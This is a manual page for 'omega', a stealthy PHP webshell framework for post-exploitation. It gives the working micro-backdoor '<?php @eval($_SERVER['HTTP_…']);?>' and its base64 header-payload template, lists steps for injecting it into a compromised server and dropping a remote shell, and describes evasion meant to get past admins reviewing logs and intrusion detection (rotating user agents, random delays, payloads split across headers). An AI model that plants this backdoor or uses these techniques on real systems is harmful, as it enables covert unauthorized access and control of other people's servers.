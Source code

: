 .TH "" 1 "" ""


.P
OMEGA

.SH NAME

.P
\fBomega\fR — furtive tunnel based php webshell

.SH SYNOPSIS

.P
\fBomega\fR [\fItarget\-url\fR|\fIsession\fR]

.SH DESCRIPTION

.P
\fBomega\fR is a furtive tunnel \fIbased\fR php webshell: it was designed in order to help privilege escalation through a very small php backdoor, while remaining the most stealth, efficient, and adjustable as possible.

.P
It innovates by settling for a remotely stored micro backdoor that forwards to dynamic encoded HTTP headers, which act as dynamic payload. This feature is usefull to bypass admins searching for suspicious lines in the server logs, because GET requests without arguments, are not as suspect as POST requests, or GET requests with suspicious arguments (eg: "?cmd=cat&edit=/etc/passwd").

.P
The \fBomega\fR framework is plugin based, so users can easily make their own plugins, or edit the built\-in ones, with the \fIpspapi\fR (omega API) that interracts with the target server through the framework.

.P
Its structure allows him to evolve and be easily adapted to all types of web exploitation scenarios, because every setting can be edited \fIglobally\fR (through user configuration file), or \fIlocally\fR, using the \fBset\fR command.

.P
A backdoor to bring them all... \- https://bitbucket.org/entynetproject/omega

.SH OPTIONS

.P
Running \fBomega\fR without any argument runs a blank session, with all settings set to default.

.TP
If an URL is specified as argument, only sets the \fITARGET\fR setting to that value.
\fB$ omega http://127.0.0.1/backdoored\-url.php\fR

.TP
You also can use a previously saved \fIsession\fR file as argument, to use him instead of a blank session. Sessions can (and need to) be saved with the \fBsave\fR command.
\fB$ omega ~/targets/localhost/omega.session\fR

.TP
For inline help, you also can use \fBomega \-\-help\fR

.SH USAGE

.P
The most basic way to use omega it as described here:

.RS
.IP 1. 3
First, find a remote php execution access.
.IP 2. 3
Open omega, and run the \fBinfect\fR command to get the working backdoor.
.IP 3. 3
Inject that backdoor on the remote server.
.IP 4. 3
Run "\fBset TARGET http://site/backdoored\-url.php\fR".
.IP 5. 3
You also can edit some \fBSETTINGS\fR (with the "\fBset\fR" command), such as the PROXY, or REQ_* variables.
.IP 6. 3
Just type "\fBexploit\fR", and enjoy your remote shell access :)
.RE

.P
\fIWARNING\fR: If the "\fBexploit\fR" command doesn't works, and returns an error, it can be for a lot of reasons:

.RS
.IP 1. 3
\fBHTTP Error 400: Bad request\fR \- Generally, this error occurs because one or some \fBREQ_*\fR settings are too big for the server. So you need to settle their values.
.IP 2. 3
\fBRequest error: Connection refused\fR \- If you are sure that the specified \fBTARGET\fR is accessible from your computer (or from the \fBPROXY\fR if defined), this error can occur because the \fBPROXY\fR is invalid
.IP 3. 3
If you have injected your \fBBACKDOOR\fR in an existing remote php code, make sure it is each time executed.
.IP 4. 3
Other issues can occur because one of your \fBSETTINGS\fR where modified without taking care of their validity, or because an IDS has detected the exploitation try.
.IP 5. 3
If the encountered issue is not in the list, you can also post an issue with all details here: https://bitbucket.org/entynetproject/omega/issues or contact the Author (see the \fBAUTHOR\fR section)
.RE

.SH INTERFACE

.P
The \fBomega\fR framework includes two shell interfaces.

.RS
.IP \(bu 3
The \fBMAIN SHELL\fR is the first shell interface, spawned when the framework starts. It is used to prepare a target exploitation. Through it, you can locally adjust the \fBSETTINGS\fR with the "\fBset\fR" command, and use the "\fBinfect\fR" command to get the micro\-backdoor that needs to be injected on the target.
.IP \(bu 3
The \fBREMOTE SHELL\fR interface starts when a target server was exploited. Its is used to interract with the backdoored URL.
.RE

.P
\fBTO GET HELP\fR on a omega command, you can use "\fBhelp <command>\fR", "\fB<command> \-\-help\fR" or "\fB<command> \-h\fR". If there is no specific help for a command, such as \fBinfect\fR, a short description of each command's purpose is available typing \fBhelp\fR without arguments.

.P
The commands are auto\-completed on unix clients, and try to use \fBreadline\fR if available.
They are divided into groups when shown whith the "\fBhelp\fR" command:

.RS
.IP \(bu 3
The \fBCORE COMMANDS\fR contains all commands available through every interface.
.IP \(bu 3
The Shell Commands contains the commands specific to the current interface.
.IP \(bu 3
In the remote shell, plugin commands are grouped by categories.
.RE

.P
\fICore Commands:\fR

.TP
\fBclear\fR
Clear the terminal screen
.TP
\fBexit\fR
Leave the current shell interface
.TP
\fBhelp\fR
Shows help for all available commands
.TP
\fBinfect\fR
Prints a working backdoor to inject in the target
.TP
\fBlcd\fR
Change local working directory
.TP
\fBlpwd\fR
Print local working directory
.TP
\fBrtfm\fR
Read this manual page
.TP
\fBsave\fR
Save the current session in a file, for future usage
.TP
\fBset\fR
View and edit omega settings

.SH MAIN SHELL

.P
When entering \fBomega\fR, the main shell is spawned, it helps you to locally edit your settings (\fBset\fR command), get the working backdoor (\fBinfect\fR command), and then start the \fIremote shell\fR (\fBexploit\fR command).

.P
\fIShell Commands:\fR

.TP
\fBexploit\fR
Drop a shell from target server

.SH REMOTE SHELL

.P
When you run the \fBexploit\fR command, you enter the remote shell, and directly interracts with the remotely backdoored server through the \fBomega\fR plugins.
Typing \fBhelp\fR will show the available commands.
\fBCore Commands\fR are all the \fBomega\fR remote shell built\-in commands.

.P
\fIShell Commands:\fR

.TP
\fBenv\fR
This command interracts with the environment variables, for more informations, please read the \fBREMOTE ENVIRONMENT\fR section.
.TP
\fBlastcmd\fR
Allows user to show or save the last command output
.TP
\fBreload\fR
Reloads the commands list, usefull if you have edited one plugin during an exploitation session
.TP
\fBshell\fR
Various command plugins, such as \fIsystem\fR, \fImysql\fR and \fIsuidroot\fR can be used as frontend shell. For example, "\fB> shell system\fR" will spawn the "\fBsystem\fR" command as default prompt, making all typed lines to be executed by this plugin.

.P
All the other remote shell commands are in reality dynamic plugins, built with the \fBPSPAPI\fR (omega API).
As with all commands, you can use "\fBhelp <command>\fR" to get help.

.P
The built\-in plugins are storred in the \fI./framework/plugins/\fR directory, sorted by categories, you can edit a built\-in or make your own command, with the \fBPSPAPI\fR.

.P
If you want to make you own plugin, it is recommended to use the alternative plugin directory \fI./plugins/\fR from the omega's user directory, this one works exactly like the buit\-in plugins directory.

.P
If a command has been edited during an exploitation session, use the "\fBreload\fR" command to reload the plugins list.

.SH SETTINGS

.P
The \fBomega\fR settings are available from the interface, they can be viewed, and edited with the \fBset\fR command.

.P
When a new session is opened, all \fIsettings\fR are set to their default values, specified in the omega's user configuration file. Editing this file allows you to specify your own default values, a very usefull feature for polymorphic backdoor, or custom HTTP headers. To get more informations about the configuration directory, please go to the \fBFILES\fR section.

.TP
\fBTARGET\fR
This setting contains the remote backdoored URL in target server, for example, if you have injected the backdoor (obtained with the \fBinfect\fR command) on a file named \fBtest.php\fR in your local server's webroot, the \fBTARGET\fR will be http://localhost/test.php .

.RS
\fBDefault value: None\fR
.RE

.TP
\fBBACKDOOR\fR
This is the backdoor template, used to generate the effective micro\-payload to be written into a target web page, it needs to be valid php code, and it's preferable to make him non\-verbose, by prexifing it's main function with an \fI@\fR. For example, \fI@\fReval() instead of eval(). For more informations about how \fBomega\fR builds request, please read the \fBREQUEST BUILDING\fR section.
The only purpose of the \fBBACKDOOR\fR is to execute the \fBREQ_HEADER_PAYLOAD\fR's content so it need to contain the dynamic var %%PASSKEY%%.

.RS
\fBDefault value: <?php @eval($_SERVER['HTTP_%%PASSKEY%%']);?>\fR
.RE

.TP
\fBPASSKEY\fR
This var is interesting for customisation, assuming it is used as main header forwarder's name, changing is default value will act as a \fIpassword\fR, making another \fBomega\fR user unable to use your \fIbackdoor\fR if it does not own the \fBPASSKEY\fR.

.RS
\fBDefault value: omega\fR
.RE

.TP
\fBPROXY\fR
With this setting, you can specify an \fIHTTP Proxy\fR, matching the pattern \fBaddress:port\fR, to send \fBomega\fR's requests through it. Be carrefull, a non\-working \fBPROXY\fR will make the requests unreachable. To disable the proxy, set it's value to \fBNone\fR.

.RS
\fBDefault value: None\fR
.RE

.TP
\fBSAVEPATH\fR
Here you can specify the default directory that will be used to save \fBomega\fR sessions, when no arguments are specified for the \fBsave\fR command. It uses your system's temporary directory as \fIdefault\fR value.

.TP
\fBTMPPATH\fR
This setting is a bit different than the \fBSAVEPATH\fR one, because omega use it to write temporary files, for example, it is used by the \fBedit\fR command in the \fIremote shell\fR. It uses your system's temporary directory as \fIdefault\fR value.

.TP
\fBREQ_DEFAULT_METHOD\fR
This is the default http METHOD that will be used to send payloads, so it's value can only be \fIGET\fR or \fIPOST\fR.

.RS
\fBDefault value: GET\fR
.RE

.TP
\fBREQ_HEADER_PAYLOAD\fR
This setting is the dynamic payload forwarder, when a request is send by the \fBomega\fR framework, a dynamic \fIHTTP HEADER\fR will be sent on eaceh request, the header's name is the \fBPASSKEY\fR setting, and the value is the  \fBREQ_HEADER_PAYLOAD\fR value, for more informations about how \fBomega\fR builds requests, please read the \fBREQUEST BUILDING\fR section.

.RS
\fBDefault value: eval(base64_decode(%%BASE64%%))\fR
.RE

.TP
\fBREQ_INTERVAL\fR
This setting can be usefull for large payloads, sent with a big amount of requests, for example, when using the \fBupload\fR's remote shell command, when seending a big file to the server.
It's used to add a delay between each request with a simple syntax. Using a number as value (ex: 20) will wait this exact numer of seconds, but you cal also specify a tuple of numbers, for example, the default value will make the builder wait a random number of seconds between \fB1\fR and \fB10\fR before each request. To disable it, just set it to \fI0\fR.

.RS
\fBDefault value: 1\-10\fR
.RE

.TP
\fBREQ_MAX_HEADERS\fR
\fBMainly used for HTTP GET requests\fR. Assuming that omega use http headers for payload encapsulation, it's important to know what is the exact http server's headers limit, because a too small \fBREQ_MAX_HEADERS\fR value will decrease the max payload size per request. Most servers, like apache and IIS accept up to 100 headers per request, but other servers can allow 200 headers or more, and smaller servers can limit headers numer to 50 or less. The default value works with a large amount of common servers with default configuration, but in some cases it will be necessary to reduce this value.

.RS
\fBDefault value: 100\fR
.RE

.TP
\fBREQ_MAX_HEADER_SIZE\fR
\fBMainly used for HTTP GET requests\fR. This setting is complementary to the \fBREQ_MAX_HEADERS\fR one, because it sets the max size that \fIeach header\fR can contain. In most cases, the common servers limit the size to \fI8Kio\fR, but many others, like \fBapache tomcat\fR and a lot of virtualized web hosting solutions limit the maximum size of each header to \fI4Kio\fR or less.

.RS
\fBDefault value: 8Kb\fR
.RE

.TP
\fBREQ_MAX_POST_SIZE\fR
\fBMainly used for HTTP POST requests\fR. This is the target server's limit for POST data, in a lot of servers, this limit is very large, such as 32Mio or more, but a lot of other web servers, and their default configurations sets this limit to 8Mio. If you intend to use POST request during a remote \fBomega\fR session, it is recommended to run the \fBphpinfo\fR command that provides the real server's \fImaximum post size\fR, then adapt the \fBomega\fR's \fBREQ_MAX_POST_SIZE\fR.

.RS
\fBDefault value: 8Mb\fR
.RE

.TP
\fBREQ_ZLIB_TRY_LIMIT\fR
On the \fBomega\fR's request builder, when the payload can't be sent in one single request because he is too large, the framework will start a lot of computering functions to calculate how much requests are needed for each \fIhttp method\fR, and to decrease the number of needed requests, he will each time try to compress the payload with \fBZLIB\fR, this feature is usefull to descrease the number of requests. But, the bigger the base payload, the slower the needed computation time. Assuming this, you can with this setting specify a maximum payload size, from which the manufacturer will not longer try to compress the cuted payload. That will increase the number of needed requests, but shalt the computation time acceptable. More powerfull your computer, more this value can be increased.

.RS
\fBDefault value: 5Mb\fR
.RE

.TP
\fBHTTP_USER_AGENT\fR
This is the user\-agent header used on each \fBomega\fR request, to pick a random user\-agent from a wordlist on each request, you can also use a \fIfile object\fR as value.

.RS
\fBDefault value: file://framework/misc/http_user_agents.lst\fR
.RE




.P
Note that the \fBHTTP_USER_AGENT\fR setting is included by default, but it is possible to create as many default headers as you want, you just need to create a setting starting with HTTP_ followed by the name of the header.

.RS
\fBExample: set HTTP_ACCEPT_LANGUAGE fr\-FR;en\-US\fR
.RE

.P
\fIFile objects\fR can be used for HTTP_* settings, the syntax is \fBfile:///full/path/to/file.txt\fR, these objects will pick an random line in file for each http request. This facilitates polymorphic requests generation, and therefore, stealth. A file object is defaultly used for the \fBHTTP_USER_AGENT\fR setting.

.SH REMOTE ENVIRONMENT

.P
The remote environment variables are available from the \fBREMOTE SHELL\fR.
They are usefull to store server related informations, and \fBPSPAPI\fR plugins have write access to them.

.P
User can show, edit or delete them with the "\fBenv\fR" command, through the \fBREMOTE SHELL\fR instance.

.P
Be very careful while manually editing these variables, because wrong values can render inoperative certain commands.

.P
There is a list of \fBREMOTE ENVIRONMENT\fR variables defaultly used by \fBomega\fR core and built\-in plugins:

.TP
\fBCWD\fR
This variable contains the current remote working directory, the \fBcd\fR and \fBpwd\fR commands use it as reference.

.TP
\fBWEB_ROOT\fR
This variable contains the absolute path to the remote web root directory.

.TP
\fBWRITE_TMPDIR\fR
This variable imperatively needs to conatain the absolute path to a writeable remote directory. It is essential for multirequest payloads execution, that stores full payload parts into this path.

.TP
\fBWRITE_WEBDIR\fR
This environment variable contains the absolute path to a writeable remote directory \fIimperatively accessible from the web\fR. It can be used for evasion \fBMODULES\fR.

.SH REQUEST BUILDING

.P
This section is about how the \fBomega framework\fR manages the requests.

.P
\fB1 \- BACKDOOR\fR

.RS
.IP \(bu 3
First, the \fBBACKDOOR\fR setting defines the main backdoor template, him, \fIand only HIM\fR needs to be written in the \fBTARGET\fR remote URL.
.IP \(bu 3
To understand the principle, it is necessary to know that the PHP language automatically adds all the \fIrequest headers\fR into the $_SERVER global array, prefixing each header name by the "HTTP_" string.
.IP \(bu 3
Assuming that, the \fBBACKDOOR\fR just works like a forwarder, executing the $_SERVER['HTTP_%%\fBPASSKEY\fR%%'] remote variable who contains the \fBREQ_HEADER_PAYLOAD\fR.
.RE

.P
\fB2 \- REQ_HEADER_PAYLOAD\fR

.RS
.IP \(bu 3
The \fBREQ_HEADER_PAYLOAD\fR also known as \fIHeader Forwarder\fR is a header that is sent on each http request, the \fBPASSKEY\fR setting is used as name, and the \fBREQ_HEADER_PAYLOAD\fR is he's value's template.
.IP \(bu 3
This header acts like a payload forwarder, permitting execution of the \fBBASE64 PAYLOAD\fR, by executing \fBBASE64\fR encoded php code.
.RE

.P
\fB3 \- BASE64 PAYLOAD\fR

.RS
.IP \(bu 3
The \fBBASE64 PAYOLOAD\fR is automatically generated for each request, he is the last step for \fIreal payload execution\fR. They undencoded values can be found in the \fI./framework/phpfiles/forwarders/\fR \fBomega\fR directory.
.IP \(bu 3
\fBFor POST request\fR, this payload executes the $POST['%%\fBPASSKEY\fR%%'] php variable, who is used as \fBREAL PAYLOAD\fR when usgin this http method.
.IP \(bu 3
\fBFor GET requests\fR, it acts concatenating the list of dynamic \fBomega\fR headers alphabetically reordrered, each containing the splitted \fBREAL PAYLOAD\fR.
.RE

.P
\fB4 \- REAL PAYLOAD\fR

.RS
.IP \(bu 3
The \fBREAL PAYLOAD\fR contains a large amout of \fIzlib compressed\fR then \fIbase64 encoded\fR php code, who is dynamically generated by the \fBphppsloit\fR framework's optimization functions.
.IP \(bu 3
Unencoded (defaultly done by the \fBBASE64 PAYLOAD\fR), he is the \fBBASE PAYLOAD\fR passed through \fBENCAPSULATION\fR.
.RE

.P
\fB5 \- BASE PAYLOAD\fR

.RS
.IP \(bu 3
The base payload, can be a plugin's payload (contained in the \fI./framework/commands/<gategory>/<plugin>/payload.php\fR file), or the default \fBomega\fR remote session opener that is called when running the \fBexploit\fR command (available in the \fI./framework/phpfiles/server_link/open.php\fR file).
.IP \(bu 3
Base payloads are php 4.1.1 compatible (because a lot of web servers already use an old version of php).
.IP \(bu 3
The \fI!import(<function>)\fR lines allows php base payloads to import \fBomega\fR dedicated functions contained in the\fI./framework/phplibs/\fR directory. Usefull to limit redundancy.
.RE

.P
\fB6 \- ENCAPSULATION\fR

.RS
.IP \(bu 3
To manage return codes and \fBomega\fR tunneling, each \fBBASE PAYLOAD\fR is encapsulated with the \fI./framework/phpfiles/encapsulator.php\fR's php code.
.IP \(bu 3
It also manages response compression with \fBZLIB\fR, to speed\-up server's responses.
.RE

.SH FILES

.P
\fBConfiguration directory:\fR

.TP
If the \fB$XDG_CONFIG_HOME\fR shell environment variable is set:
\fB${XDG_CONFIG_HOME}/omega/\fR (a.k.a. likely ~/.config/omega/)
.TP
Else the user home is used as base directory:
\fB~/.omega/\fR (a.k.a. ${HOME}/.omega/ on GNU/Linux)

.P
The "./config" file is used as \fBomega\fR configuration file, on root user's configuration directory.
It allows to reconfigure the default \fBSETTINGS\fR (see the \fBSETTINGS\fR section for more informations)

.P
The "./plugins/" directory can be used to make your own \fBomega\fR plugins.

.SH ISSUES

.TP
To submit any issue, bug or proposal, please send it in the omega's issues section:
https://bitbucket.org/entynetproject/omega/issues

.SH CONTRIBUTE

.TP
If you want to contribute to \fBomega\fR, submit a plugin, patch, or anything else, take a look at the \fBCONTRIBUTE\fR file, from the ./doc directory

.SH AUTHOR

.P
\fBentynetproject\fR <http://goo.gl/kb2wf>

.SH LICENCE

.P
This software is under the GNU GENERAL PUBLIC LICENSE Version 3, 29 June 2007

.\" man code generated by txt2tags 2.6 (http://txt2tags.org)
.\" cmdline: txt2tags -q -t man -i man.txt2tags -o omega.1
